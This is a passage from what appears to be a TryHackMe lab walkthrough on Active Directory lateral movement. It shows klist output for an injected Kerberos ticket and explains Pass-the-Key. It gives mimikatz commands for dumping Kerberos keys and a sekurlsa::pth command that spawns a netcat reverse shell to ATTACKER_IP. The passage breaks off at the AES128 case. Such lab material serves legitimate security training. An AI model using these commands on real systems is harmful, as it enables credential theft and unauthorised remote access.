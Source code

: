 Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the klist command:

THMJMP2:Powershell

```shell-session
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

  

## Overpass-the-hash / Pass-the-Key

This kind of attack is similar to PtH but applied toÂ KerberosÂ networks.

When a user requests aÂ TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be eitherÂ DESÂ (disabled by default on current Windows versions), RC4, AES128 or AES256, depending on the installed Windows version andÂ KerberosÂ configuration. If we have any of those keys, we can ask the KDC for aÂ TGTÂ without requiring the actual password, hence the nameÂ **Pass-the-key (PtK)**.

We can obtain theÂ KerberosÂ encryption keys from memory by using mimikatz with the following commands:

```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key (`nc64`Â is already available in THMJMP2 for your convenience):

**If we have the RC4 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES128 hash:**
